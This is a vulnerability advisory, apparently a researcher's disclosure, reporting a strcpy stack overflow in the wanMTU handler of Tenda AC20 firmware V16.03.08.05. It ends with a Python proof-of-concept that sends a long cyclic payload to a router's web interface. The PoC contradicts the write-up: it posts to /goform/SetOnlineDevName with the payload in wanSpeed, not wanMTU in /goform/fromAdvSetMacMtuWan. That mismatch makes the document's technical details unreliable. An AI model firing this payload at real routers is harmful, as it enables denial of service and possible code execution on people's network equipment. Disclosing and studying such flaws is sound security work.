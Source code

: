 # Tenda AC20_V16.03.08.05 has a stack overflow in /goform/fromAdvSetMacMtuWan.

## Basic Information

Vulnerability vendor: Shenzhen Jixiang Tengda Technology Co., Ltd.

Vulnerability level: High risk

Vendor website: https://www.tenda.com.cn

Affected object type: Network equipment

Affected product: Tenda AC20

Affected product version: AC20_V16.03.08.05

Is it a product component vulnerability: No

## 1. Vulnerability Overview

The Tenda AC20 is a wireless router manufactured by Tenda, a Chinese company. The Tenda AC20 contains a buffer overflow vulnerability stemming from the failure to properly validate the length of input data in the parameter wanMTU in the file /goform/fromAdvSetMacMtuWan. An attacker could exploit this vulnerability to execute arbitrary code on the system.

## 2. Details of the vulnerability

ida analysis of the .bin/httpd binary file, romAdvSetMacMtuWan is primarily responsible for obtaining the number of WAN ports from wans.flag and executing the sub_44B6D4 function on each WAN port.

![image-20250825154029495](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250825154029495.png)

The wanMTU parameter is retrieved and stored in nptr using the strcpy function. The strcpy function does not check the size of the target buffer when processing the wanMTU parameter. If the copied data exceeds the buffer's capacity, a buffer overflow may occur. An attacker could easily execute a denial-of-service attack or remote code execution using carefully crafted overflow data.

![image-20250825154056858](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250825154056858.png)

## Poc

```
from pwn import *
import requests

payload = cyclic(0x500)
url = "http://192.168.87.135/goform/SetOnlineDevName"

cookie = {"Cookie":"password=12345"}

data = {"SET": "erger",
    "wanMTU": "m",
    "wanSpeed": payload,
    "wanSpeed2": "300",
    "cloneType": "t",
    "cloneType2": "tt",
    "mac": "192.168.2.3",
    "mac2": "192.168.3.4",
    "serviceName":"admin",
    "serviceName2":"admin2",
    "serverName":"rr",
    "serverName2":"dd"}



response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)

```

